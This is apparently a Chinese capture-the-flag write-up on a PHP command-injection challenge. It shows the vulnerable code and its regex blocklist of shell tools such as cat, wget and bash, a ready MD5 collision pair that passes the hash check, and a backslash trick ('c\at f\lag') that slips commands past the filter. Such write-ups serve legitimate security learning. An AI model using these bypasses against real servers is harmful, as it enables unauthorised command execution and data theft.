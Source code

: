 ```php+HTML
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:#CCCCCC;
}
</style>
<body>
</body>
</html>
```

img这条路被堵死了，开头有`/[^a-zA-Z0-9.]+/`，就会被替换为空

接着看cmd参数

```
if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
```

这里是MD5的强类型，需要进行碰撞。找了一对值

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

最后就是执行命令，绕过过滤了

```
这里过滤了许多，重点在这"|\\|\\\\|"，php中会经历两次解析，php解析与正则解析。第一次php转义为"|\|\\|",第二次正则转义，将中间的**|**转义为普通字符，结果为"||\|"。所以实际上匹配的是"|\"。它没有过滤"\"符号。
```

在linux系统里，在命令里可以加入`\`

```
cmd=c\at%20f\lag
```
